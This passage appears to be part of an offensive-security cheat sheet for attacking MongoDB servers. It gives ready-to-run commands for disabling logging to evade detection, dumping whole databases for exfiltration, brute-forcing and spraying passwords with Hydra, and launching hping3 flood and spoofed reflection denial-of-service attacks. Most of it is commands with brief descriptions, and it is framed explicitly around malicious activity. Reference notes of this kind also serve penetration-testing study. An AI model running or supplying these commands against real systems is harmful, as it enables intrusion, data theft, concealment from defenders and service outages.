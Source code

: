 ### Disabling Logging
- **Tool:** [[MongoDB]]
    ```js
    db.adminCommand({setParameter: 1, logLevel: -1})
    ```
- **Description:** Reduces or disables logging to avoid detection during malicious activity.

## Data Exfiltration

### Extracting Databases
- **Tool:** [[MongoDump]]
    ```bash
    mongodump --host <target_ip> --port 27017 --out /exfil/directory
    ```
- **Description:** Dumps entire MongoDB databases for later exfiltration.

# Exploits and Attacks

## Password Attacks

### Password Brute Force
- **Tool:** [[Hydra Cheat Sheet]]
    ```bash
    hydra mongodb://<target_ip> -s 27017 -l <username> -P <password_list>
    ```
- **Description:** Test a single username against multiple passwords.

### Password Spray
- **Tool:** [[Hydra Cheat Sheet]]
    ```bash
    hydra mongodb://<target_ip> -s 27017 -l <username_list> -P <password>
    ```
- **Description:** Test a multiple usernames against a single password.

## Denial of Service

### TCP/UPD Flood Attack
- **Tool:** [[HPing3 Cheat Sheet]]
    ```bash
    hping3 <target_ip> -p 27017 --flood --rand-source -c 1000
    ```
- **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

### TCP/UDP Reflection Attack
- **Tool:** [[HPing3 Cheat Sheet]]
    ```bash
    hping3 <target_ip_1> -p 27017 --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
- **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.
